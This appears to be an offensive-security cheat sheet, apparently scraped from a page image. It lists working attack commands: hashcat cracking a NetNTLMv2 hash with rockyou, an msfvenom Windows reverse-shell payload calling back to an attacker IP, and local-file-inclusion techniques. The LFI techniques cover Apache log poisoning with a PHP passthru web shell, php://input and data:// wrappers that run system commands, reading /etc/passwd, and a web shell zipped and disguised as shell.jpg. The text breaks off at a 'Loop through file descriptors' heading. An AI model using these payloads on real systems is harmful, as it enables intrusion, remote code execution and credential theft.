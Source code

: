 hashcat -m5600 'spotless::WS01:1122334455667788:26872b3197acf1da493228ac1a54c67c:010100000000000078b063fbcce8d4012c90747792a3cbca0000000008003000300000000000000001000000002000006402330e5e71fb781eef13937448bf8b0d8bc9e2e6a1e1122fd9d690fa9178c50a0010000000000000000000000000000000000009001a0057005300300031005c00730070006f0074006c006500730073000000000000000000' -a 3 /usr/share/wordlists/rockyou.txt --force --potfile-disable
Generating Payload with msfvenom
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.245 LPORT=443 -f c -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai
Compiling Code From Linux
# Windows
i686-w64-mingw32-gcc source.c -lws2_32 -o out.exe
​
# Linux
gcc -m32|-m64 -o output source.c
Compiling Assembly from Windows
# https://www.nasm.us/pub/nasm/releasebuilds/?C=M;O=D
nasm -f win64 .\hello.asm -o .\hello.obj
​
# http://www.godevtool.com/Golink.zip
GoLink.exe -o .\hello.exe .\hello.obj
Local File Inclusion to Shell
nc 192.168.1.102 80
GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1
Host: 192.168.1.102
Connection: close
​
# Then send as cmd payload via http://192.168.1.102/index.php?page=../../../../../var/log/apache2/access.log&cmd=id
Local File Inclusion: Reading Files
file:///etc/passwd
​
http://example.com/index.php?page=php://input&cmd=ls
    POST: <?php system($_GET['cmd']); ?>
http://192.168.2.237/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input
    POST: <?php system('uname -a');die(); ?>
​
expect://whoami
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=&cmd=id
http://10.1.1.1/index.php?page=data://text/plain,%3C?php%20system%28%22uname%20-a%22%29;%20?%3E
​
# ZIP Wrapper
echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;  
zip payload.zip payload.php;   
mv payload.zip shell.jpg;    
http://example.com/index.php?page=zip://shell.jpg%23payload.php
​
# Loop through file descriptors